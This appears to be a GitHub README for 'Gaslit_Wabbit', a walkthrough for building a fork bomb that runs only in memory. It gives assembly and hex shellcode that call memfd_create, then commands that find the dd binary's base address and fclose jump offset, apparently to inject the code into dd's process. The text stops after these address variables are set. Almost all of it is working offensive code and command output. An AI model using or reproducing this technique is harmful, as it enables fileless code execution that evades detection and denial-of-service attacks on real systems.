 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
- ```#define __NR_memfd_create 319```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
- ```#define __NR_pause 34```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
- ```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

let's remove what we don't need,
```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12
```
- ```55555555400```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```
let's remove what we don't need,

```shell
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```
- ```681b```

we see the PID addresses are,
- ```shell
0x555555554000```
- ```shell
0x681b```

now, let's create some variables that, will run a command that will locate the PID addresses and store only what we need from the output,


pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)